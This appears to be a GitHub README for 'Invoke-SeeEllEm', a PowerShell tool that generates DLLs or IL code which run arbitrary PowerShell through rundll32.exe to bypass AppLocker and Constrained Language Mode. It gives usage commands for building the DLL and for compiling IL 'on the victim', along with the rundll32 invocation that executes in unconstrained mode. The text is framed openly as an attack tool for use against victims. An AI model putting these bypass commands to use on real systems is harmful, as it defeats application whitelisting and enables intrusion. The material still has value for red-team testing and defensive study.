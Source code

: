 # Invoke-SeeEllEm
Automated Applocker/CLM dll generation which executes arbitrary powershell commands through rundll32.exe 


**Usage:**
```powershell
ipmo .\Invoke-SeeEllEm; Create-AppIl -DllName "ayylmao" -Entry "Poon" -Command "$ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt" -Build
```
- Generates a dll called ayylmao.dll with the entrypoint of Poon with the command $ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt

```powershell
ipmo .\Invoke-SeeEllEm; Create-AppIl -Entry "Poon" -Command "$ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt"
```
- Generates a il to be transferred to the victim & compiled there, useful combined with https://github.com/FortyNorthSecurity/CLM-Base64 (Takes utf-8 not utf-16LE like windows powershell base64 does so cat file.il | base64 -w0)



`rundll32.exe Dllname.dll,EntryChosen`
- will execute in Unconstrained Language Mode if you have done your enum properly ;)
